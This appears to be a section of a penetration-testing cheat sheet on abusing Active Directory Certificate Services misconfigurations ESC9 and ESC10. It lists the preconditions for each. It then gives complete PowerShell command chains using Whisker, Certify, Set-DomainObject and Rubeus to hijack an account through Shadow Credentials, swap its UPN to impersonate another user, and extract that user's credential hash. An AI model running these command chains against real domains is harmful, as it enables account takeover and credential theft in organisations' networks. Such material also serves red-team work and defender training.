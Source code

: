 ### ESC9 & 10

* **ESC9** : No security extension, the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`
  * `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
  * The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
  * The template specifies client authentication
  * `GenericWrite` right against any account A to compromise any account B
* **ESC10** : Weak certificate mapping
  * Case 1 : `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B
  * Case 2 : `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)

#### Windows

**ESC9**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request vulnerable certif with user2
Certify.exe request /ca:'contoso\ca' /template:"Vulnerable template"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

**ESC10 - Case 1**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:'contoso\ca' /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```
